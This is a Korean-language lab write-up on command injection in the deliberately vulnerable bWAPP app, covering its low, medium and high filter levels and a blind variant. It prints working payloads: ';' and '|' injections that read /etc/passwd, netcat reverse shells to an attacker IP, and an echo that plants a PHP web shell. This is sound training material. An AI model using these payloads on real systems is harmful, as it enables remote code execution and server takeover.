 ```yaml
---
layout: single
title: (bWAPP)Command Injection
categories: bwapp
tag: [os injection, bwapp, bee box, command injection, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직

```php
function commandi($data)
{
    switch($_COOKIE["security_level"])
    {
        case "0" :
            $data = no_check($data);
            break;
        case "1" :
            $data = commandi_check_1($data);
            break;
        case "2" :
            $data = commandi_check_2($data);
            break;
        default :
            $data = no_check($data);
            break;
    }
    return $data;
}
```

## Level - Low

> Low Level 에서는 아무런 검증이 이루어지지 않아 해당 취약점이 손쉽게 악용될 수 있다.

![그림 1-1](/assets/image/bwapp/injection/image1.png)
-  DNS lookup 기능을 수행하는 입력창이 존재
- 활성화된 버튼을 클릭하게 되면, http://www.nsa.gov 도메인에 대한 DNS Lookup이 이루어져 매칭되는 IP를 알려준다.

![그림 1-2](/assets/image/bwapp/injection/image2.png)

- 해당 능에서는 시스템 함수를 사용한다는 것을 짐작할 수 있다.
- 이 때 적절한 입력 값 검증이 이루어지지 않는다면, 시스템의 메타문자들을 이용하여 앞 명령어에 이어서 추가 명령어를 실행할 경우 RCE 취약점으로 연계가 가능하다.

```shell
www.nsa.gov; cat /etc/passwdw 
```

- 위 코드와 같이 ;(명령어 구분자)를 통해 새로운 시스템 명령어를 보내 서버측에서 실행하도록 하였다.

![그림 1-3](/assets/image/bwapp/injection/image3.png)
- 출력된 사진과 같이 성공적으로 /etc/passwd 코드를 읽어들여 브라우저상에 출력되는 걸 확인했다.
- 위와 같이 OS Injection 취약점이 존재할 경우 시스템 명령어 주입이 가능한경우 공격자 서버에서 reverse connection이 가능하다

```shell
nc -lvp 5252
```

- 공격자 PC에서 nc를 통해 포트를 열어놓은 상태에서
- cat /etc/passwd 인자 대신 nc [공격자 ip] 5252(포트) -e /bin/bash 를 인자로 주어 연결에 성공한다.

```shell
www.nsa.gov; nc 172.20.120.196 5252 -e /bin/bash
```

![그림 1-4](/assets/image/bwapp/injection/image4.png)
## Level - Medium
> Level - Medium 에서는 &, ; 메타문자가 필터링 된 걸 알 수 있다.

```php
function commandi_check_1($data)
{
    
    $input = str_replace("&", "", $data);
    $input = str_replace(";", "", $input);
    
    return $input;
```

> &와 ; 메타문자가 필터링 되었어도, \| 메타문자를 통해 두번 째 인자가 시스템 명령어로 실행이 가능하다.


```shell
www.nsa.gov | nc 172.20.120.196 5252 -e /bin/bash
```

## Level - High
> Level - High 에서는 escapeshellcmd() 함수를 통해 적절하게 검증이 이루어지고 있다.

```shell
function commandi_check_2($data)
{
   
    return escapeshellcmd($data);
    
}
```
>escapeshellcmd() 함수는 PHP 함수로서, 외부 명령을 실행하기 전 입력된 문자열에 대해 이스케이프 처리를 수행한다. 이를 통해 메타문자를 이스케이프하여, 쉘 명령을 실행할 수 없도록 한다.

# Blind - Based
> Blind 기반의 OS 인젝션 파트도 필터링은 동일하게 적용되어 있으며, Blind 기반의 OS 인젝션에 대한 부분중 하나를 실습해보았다. (해당 실습에서 사용된 방식을 제외한 여러 Blind 기반의 공격기법은 다양하지만 redirect 를 통한 Blinde 기반의 공격을 실습해보았다.)

![그림 1-5](/assets/image/bwapp/injection/image5.png)
 - 사진에서 볼 수 있듯, 명령어에 대한 어떠한 결과값이 도출되지 않고 있다

 ```shell
 127.0.0.1;echo '<?php system($_GET['cmd']) ?>' > /var/www/bWAPP/shell.php
 ```

 - 입력값과 추가 시스템 명령어를 전달하였다.
- 실습대상인 bWAPP의 웹 디렉터리 내에 shell.php 파일을 생성하였고, 웹 페이지에서 해당 경로로 접근하면 웹쉘이 실행되는것을 확인했다.
![그림 1-6](/assets/image/bwapp/injection/image6.png)

